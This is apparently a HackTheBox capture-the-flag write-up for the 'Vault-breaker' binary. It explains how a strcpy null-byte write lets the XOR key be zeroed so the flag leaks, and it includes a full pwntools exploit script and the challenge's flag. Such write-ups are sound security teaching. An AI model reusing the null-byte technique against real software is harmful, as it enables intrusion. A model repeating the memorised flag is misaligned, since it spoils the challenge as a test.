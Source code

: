 # Vault-breaker
> Write-up author: jon-brandy
## DESCRIPTION:
Money maker, Big Boy Bonnie has a crew of his own to do his dirty jobs. In a tiny little planet a few lightyears away, a custom-made vault has been found by his crew. 
Something is hidden inside it, can you find out the way it works and bring it to Bonnie?
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fee75c8f-8712-4253-86f6-e9d4223e992a)

> BINARY PROTECTIONS 

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/aa77f0fa-38d7-4e28-a6db-91959cbb4fba)


2. After decompiled the binary and analyzed the `secure_password()` function which is the second menu option.
3. I found no vuln and it just perform safe XOR operation for the flag strings.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7d86234e-a150-4c78-9edc-335c90fea824)


4. But the bug is at the 1st menu option which is the `new_key_gen()` function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d0e69019-3714-4578-ab4f-556a74383fd2)

5. It checks whether the user input has null byte, then it shall printed out the original char.
6. Well the vuln is at the strcpy(), if we're using strcpy() it does copy the nullbyte (at the end of the strings). For secure coding practice better using memcpy().
7. Anyway the exploit here, is we can leak the flag char one by one by set a position manually for the nullbyte.
8. As we know the program accepts 31 bytes and there's a memset which set 32 bytes of 0 at first.
9. So rather we leak it from the left, we can leak it more easily from the right using for loop.

> SCRIPT TEMP

```py
for i in range(0x1F, -1, -1):
    print('[INFO] Iter: ', i)
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(i))
```

10. After we leak all the character then we open the second menu to get the flag.

> FULL SCRIPT

```py
from pwn import *
import os 

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './vault-breaker'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

# exploit starts
# 0x1F == 31
for i in range(31, -1, -1):
    print('[INFO] Iter: ', i)
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(i))

sh.sendlineafter(b'>', b'2')

sh.interactive()
```

> TEST LOCALLY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4df902d1-7c75-4581-a0d1-14b5872ec7c6)


11. Great we got it locally, but notice we failed to leak the `}`. Kinda confused why because our local flag length is 24.
12. Anyway let's send it remotely.

> REMOTELY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/76bf0af6-9662-4f2d-89b2-4103ac9e8251)


#### NOTES: 
```
The binary at the remote server is very unstable, took me a while to get the flag remotely, i keep terminate and spawn the host again and again. Because if you tried to leak it manually without the script, you'll notice some char can't be leaked and when you restart the host, it can be leaked.
```

## FLAG
```
HTB{d4nz4_kudur0r0r0}
```


